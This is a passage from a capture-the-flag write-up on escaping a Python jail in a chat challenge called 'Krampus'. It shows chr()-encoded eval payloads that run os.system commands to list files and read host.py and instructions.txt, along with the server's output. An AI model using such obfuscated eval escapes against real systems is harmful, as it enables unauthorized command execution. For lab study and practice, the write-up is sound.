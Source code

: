 And send it... Success!

	<You>: eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(32)+chr(45)+chr(108)+chr(97)+chr(39)+chr(41))
	<Krampus>: total 29592
	drwxrwxrwx. 1 root   root       4096 Dec 22 05:24 .
	drwxr-xr-x. 1 root   root       4096 Dec 21 22:12 ..
	-rw-r--r--. 1 friend friend        2 Dec 22 05:24 banned-ips.json
	-r-xr-xr-x. 1 root   root          3 Dec 18 19:16 banned-players.json
	-r-xr-xr-x. 1 root   root         45 Dec 16 20:55 eula.txt
	-r-xr-xr-x. 1 root   root       2323 Dec 20 21:49 host.py
	-r-xr-xr-x. 1 root   root        293 Dec 16 20:55 instructions.txt
	-r-xr-xr-x. 1 root   root         54 Dec 16 20:55 krampus.py
	drwxr-xr-x. 2 friend friend     4096 Dec 22 05:23 logs
	-r-xr-xr-x. 1 root   root          3 Dec 18 19:16 ops.json
	-r-xr-xr-x. 1 root   root   30222121 Dec 16 20:55 server.jar
	-rwxr-xr-x. 1 friend root        863 Dec 22 05:24 server.properties
	-rw-r--r--. 1 friend friend      216 Dec 22 07:52 usercache.json
	-rw-r--r--. 1 friend friend        2 Dec 22 05:24 whitelist.json
	drwxr-xr-x. 1 friend root       4096 Dec 22 08:16 world
	0

Cat out the source code `__import__('os').system('cat host.py')`... Our guess was correct about Jail escape.

	<You>: eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(104)+chr(111)+chr(115)+chr(116)+chr(46)+chr(112)+chr(121)+chr(39)+chr(41))
	<Krampus>: 

> See [host.py](host.py)

Now where is the darn flag?


Cat out `instructions.txt`


	<You>: eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(105)+chr(110)+chr(115)+chr(116)+chr(114)+chr(42)+chr(39)+chr(41))
	<Krampus>: Hello. Krampus congratulates you for successfully finishing his challenge.
	He'd now like to play a game. Inside this folder, you will find Krampus' favourite game. Start up the server, and join Krampus in his game.

	(For an optimal game experience, run the server with around 80MB of memory.)
	0

### Retrieve the folder - ZIP it first

Okay so we need to extract out the folder so its easier to play locally.

Let's first zip up all the contents to make it easier to download. Apparently, I tried using system('zip ...') command doesn't work through.
